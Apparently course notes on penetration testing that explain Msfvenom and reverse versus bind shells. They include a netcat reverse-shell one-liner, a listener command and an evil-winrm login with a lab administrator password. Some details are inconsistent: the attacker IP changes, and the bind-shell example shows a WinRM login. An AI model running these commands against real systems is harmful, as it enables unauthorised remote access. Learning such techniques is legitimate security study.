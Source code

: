 #### **Msfvenom** <a href="#gjknh8vkhwjl" id="gjknh8vkhwjl"></a>

* Technically part of the Metasploit Framework.
* Shipped as a standalone tool.
* Used to generate reverse and bind shell payloads on the fly.

### **Types of Shell** <a href="#id-1ovvboduz4vx" id="id-1ovvboduz4vx"></a>

#### **Reverse shells** <a href="#mrv8rdm6qfm2" id="mrv8rdm6qfm2"></a>

* Target is forced to execute code that connects back to the attacker.
* Attacker sets up listener used to receive the connection.
* Good way to bypass firewall rules that may prevent connecting to arbitrary ports on the target.
  * Attacker needs to configure their own network to accept shell when receiving a shell from a machine across the internet.
* Generally easier to execute and debug.

**Reverse Shell Example**

* Set up listener on the attack host.

sudo nc -lvnp 443

listening on \[any] 443 ...

* Send reverse shell from the target.
  * Likely done through code injection.

nc 10.11.12.223 443 -e /bin/bash

* Listener receives connection.

connect to \[10.11.22.223] from (UNKNOWN) \[10.10.199.58] 43286

* Commands run over the shell are executed as the target user.

whoami

shell

#### **Bind shells** <a href="#cju6k89eloa6" id="cju6k89eloa6"></a>

* Code is executed to start a listener attached to a shell on the target.
* This would then be opened up to the Internet.
* Attacker connects to the port that the code has opened and obtain remote code execution.
* Does not require any configuration on the attacker's network.
* May be prevented by firewalls protecting the target.
* Less common than reverse shells.

**Bind Shell Example**

* Start listener on Windows target and tell it to execute cmd.exe.

evil-winrm -i 10.10.2.57 -u Administrator -p 'TryH4ckM3!'
